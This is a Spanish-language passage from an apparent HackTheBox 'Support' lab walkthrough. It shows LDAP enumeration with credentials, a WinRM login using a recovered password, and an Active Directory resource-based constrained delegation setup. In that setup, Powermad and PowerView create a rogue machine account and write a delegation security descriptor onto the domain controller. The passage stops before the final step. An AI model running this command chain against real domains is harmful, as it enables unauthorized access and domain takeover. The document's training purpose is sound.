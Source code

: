 ```
ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'dc=support,dc=htb' > ldap.out
```

Buscando filtrando por el CN=Support encontramos una contraseña en el campo de información y no en el campo de descripción como se encuentra normalmente en otros escenarios:

![Pasted image 20250619191853](https://github.com/user-attachments/assets/c73d722e-5e19-4100-9e57-301a5a163d84)

Al tener estas credenciales podemos comprobar que tenemos acceso por WinRM:

```
netexec winrm 10.10.11.174 -u support -p Ironside47pleasure40Watchful
```

![Pasted image 20250619192104](https://github.com/user-attachments/assets/4fa47c4e-0b48-42a6-a7ce-6cbf0a627d4e)

Una vez dentro, ya podemos seguir el vector de ataque que listamos anteriormente, primero transfiriendo e importando los modulos necesarios:

```
upload powermad.ps1
upload PowerView.ps1
import-module .\powermad.ps1
import-module .\PowerView.ps1
```

Primero, necesitamos crear un computador llamado atacante1 con la contraseña Password123!:

```
New-MachineAccount -MachineAccount atacante1 -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
[+] Machine account atacante1 added
```

Luego obtenemos el SID del computador creado:

```
$ComputerSid = Get-DomainComputer atacante1 -Properties objectsid | Select -Expand objectsid
```

Luego construimos un ACE generico con el SID del computador creado, despues obteniendo los bytes para el nuevo DACL/ACE:

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)
```

Finalmente debemos settear este security descriptor en el campo `msDS-AllowedToActOnBehalfOfOtherIdentity` en el computador que queremos atacar, que en este caso es el DC, podemos hacer este paso importante ya que tenemos GenericAll ante este computador, si no tuvieramos este permiso no podriamos realizar el ataque:
